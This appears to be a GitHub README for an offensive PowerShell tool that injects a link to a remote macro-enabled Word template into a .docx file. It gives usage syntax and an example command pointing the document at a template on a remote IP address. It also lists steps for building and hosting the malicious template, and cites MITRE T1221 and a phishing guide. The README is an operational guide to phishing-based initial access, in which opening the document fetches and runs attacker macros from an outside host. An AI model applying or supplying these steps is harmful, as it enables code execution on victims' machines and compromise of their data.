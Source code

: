 # Template Injection
Injects Microsoft template with macro into a Microsoft Word document.  

## Requirements
- PowerShell version 5 or greater.

## Usage
```
usage: .\TemplateInjection.ps1 DOCX URL

positional arguments:
  DOCX            .docx file to inject template into
  URL             remote Microsoft template

Example of use
To inject remote http url:

.\TemplateInjection.ps1 C:\dump\report.docx http:\\192.168.238.141\template.dot
```

## Basic steps

1. Create a Microsoft Word template with macro, and save as a .dotm file (Word Macro-Enabled Template (*.dotm)
2. Rename above to extension .dot (Word 97-2003 Template).
3. Create a new document from this template, and save as a Word .docx file.
4. Move the .dot file to a remote web server.
5. Use the PowerShell script to inject reference of the remote template location into the .docx file.

## References

- Mitre Attack: Template Injection https://attack.mitre.org/techniques/T1221/
- Phishing with MS Office: Inject Macros from a remote dotm template. https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros
- RemoteInjector: Python script to Inject remote template link into word document. https://github.com/JohnWoodman/remoteinjector
- Microsoft: Internet Macros Blocked. https://learn.microsoft.com/en-us/deployoffice/security/internet-macros-blocked
